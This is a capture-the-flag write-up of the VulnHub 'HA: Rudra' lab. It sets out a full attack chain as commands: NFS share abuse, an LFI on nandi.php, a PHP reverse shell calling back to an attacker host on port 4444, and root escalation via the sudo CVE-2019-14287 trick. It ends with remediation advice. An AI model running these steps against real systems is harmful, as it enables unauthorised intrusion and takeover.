




# HA: Rudra — Writeup

| | |
|-|-|
| **Target IP** | 192.168.1.101 (host-only) |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Credentials** | mahakaal : kalbhairav |
| **Root Flag** | /root/final.txt |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/ha-rudra,445/) |

## Attack Summary

NFS mount (/home/shivay) → DIRB finds nandi.php LFI → plant PHP shell via NFS → RCE → MySQL hint → emoji steganography (Cloakify) → SSH (mahakaal) → sudo watch CVE-2019-14287 → root

## Methodology

1. Network discovery — ports 22, 80, 2049 (NFS)
2. NFS mount for readable share
3. DIRB finds LFI endpoint (nandi.php)
4. Plant reverse shell through NFS share, trigger via LFI
5. MySQL internal recon
6. Emoji steganography decode with Cloakify
7. SSH lateral movement
8. sudo -u#-1 watch privesc (CVE-2019-14287)

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.1.0/24
nmap -A 192.168.1.101
# Ports: 22/SSH, 80/HTTP, 2049/NFS
```



---

## Step 2: NFS Share Mount

```bash
showmount -e 192.168.1.101
# /home/shivay  *
mkdir /tmp/ignite
mount -t nfs 192.168.1.101:/home/shivay /tmp/ignite
ls /tmp/ignite
# mahadev.txt (contains a hint)
```


---

## Step 3: DIRB + LFI Discovery

```bash
dirb http://192.168.1.101/
# /robots.txt hints at nandi.php
curl http://192.168.1.101/robots.txt
```

Test LFI on `nandi.php`:

```bash
curl "http://192.168.1.101/nandi.php?file=/etc/passwd"
# Returns /etc/passwd — confirms LFI
# Users: rudra, shivay, mahakaal
```



---

## Step 4: PHP Reverse Shell via NFS

Since `/home/shivay` is mounted, write a reverse shell into the share:

```bash
cp /usr/share/webshells/php/php-reverse-shell.php /tmp/ignite/shell.php
# Edit: $ip = '192.168.1.108'; $port = 4444;
```

Start listener:

```bash
nc -lvnp 4444
```

Trigger via LFI:

```bash
curl "http://192.168.1.101/nandi.php?file=/home/shivay/shell.php"
```

---

## Step 5: Internal MySQL Recon

```bash
netstat -an | grep LISTEN
# MySQL on 127.0.0.1:3306
mysql -u root -p
use mahadev;
SELECT * FROM hint;
# Points to files in /media
```



---

## Step 6: Emoji Steganography (Cloakify)

The hint points to an emoji-encoded credentials file. Use Cloakify to decode:

```bash
git clone https://github.com/TruffleHog/Cloakify
python cloakifyFactory.py
# Option 2: Decloakify
# Input file: /root/pwd (or from /media)
# Output file: /root/decodedpwd
# Noise: No
# Cipher: Emoji (option 3)
cat /root/decodedpwd
# mahakaal : kalbhairav
```

---

## Step 7: SSH Login

```bash
ssh mahakaal@192.168.1.101
# Password: kalbhairav
```

---

## Step 8: Privilege Escalation (CVE-2019-14287)

```bash
sudo -l
# (ALL) NOPASSWD: /usr/bin/watch
```

The `sudo -u#-1` trick allows running as root despite user exclusions (CVE-2019-14287):

```bash
sudo -u#-1 watch -x sh -c 'reset; exec sh 1>&0 2>&0'
id
# uid=0(root)
cd /root
cat final.txt
```



---

## Lessons Learned

1. **NFS world-readable export** — restrict NFS exports to specific hosts/subnets with `ro` flag; never export `/home`
2. **LFI allows shell planting** — validate and sanitize `file=` parameters; use allow-lists
3. **Steganography as data hiding** — credentials hidden in emoji files bypass pattern-based detection
4. **CVE-2019-14287 (sudo ≤ 1.8.27)** — `sudo -u#-1` bypasses user exclusion in Runas spec; patch sudo immediately
5. **MySQL running as root** — run MySQL as a dedicated low-privilege user

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| NFS world-readable | Restrict export: `/home/shivay 192.168.1.0/24(ro,no_root_squash)` → prefer `squash_all` |
| LFI in nandi.php | Use allowlist for `file=` parameter, never include arbitrary paths |
| Sudo CVE-2019-14287 | Upgrade sudo to ≥ 1.8.28 |
| MySQL credentials accessible | Restrict DB access, use separate DB user, limit permissions |
| Weak SSH password | Enforce key-based SSH, disable password auth |
